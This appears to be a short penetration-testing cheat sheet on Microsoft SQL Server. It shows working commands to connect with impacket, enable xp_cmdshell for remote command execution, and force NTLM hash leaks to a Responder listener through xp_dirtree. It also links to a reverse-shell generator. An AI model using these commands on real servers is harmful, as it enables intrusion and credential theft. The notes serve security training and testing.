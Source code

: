 # Microsoft SQL Server
Microsoft SQL Server is a relational database management system (RDBMS) made by Microsoft.
## Notes
If commands are not found or do not work, you may need to install or update it.
The commands and tools used here were tested on Kali Linux (Rolling Edition)

## Port
1433

## Connecting
```bash
impacket-mssqlclient <Username>@<IP> -windows-auth
```

## RCE using `xp_cmdshell`
If the following command returns 1, the account has sysadmin privileges and can run remote commands via `xp_cmdshell`.
```bash
SELECT IS_SRVROLEMEMBER('sysadmin') #1
```
If you have sysadmin privileges, you can enable xp_cmdshell and run arbitrary commands by executing
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell '<Command>';
```

## Capture NTLM hashes using Responder and `xp_dirtree` or `xp_fileexist`
If you do not have sysadmin privileges, you can use Responder with xp_dirtree or xp_fileexist to capture NTLM hashes.
```bash
sudo responder -I tun0 #another terminal

SELECT IS_SRVROLEMEMBER('sysadmin') #0
EXEC xp_dirtree '\\<IP>\<Share>' # or '//<IP>/<Share>'
# EXEC xp_fileexist '\\<IP>\<Share>' or '//<IP>/<Share>'
```

# Reference
[Microsoft SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[Reverse shell generator](https://www.revshells.com/)
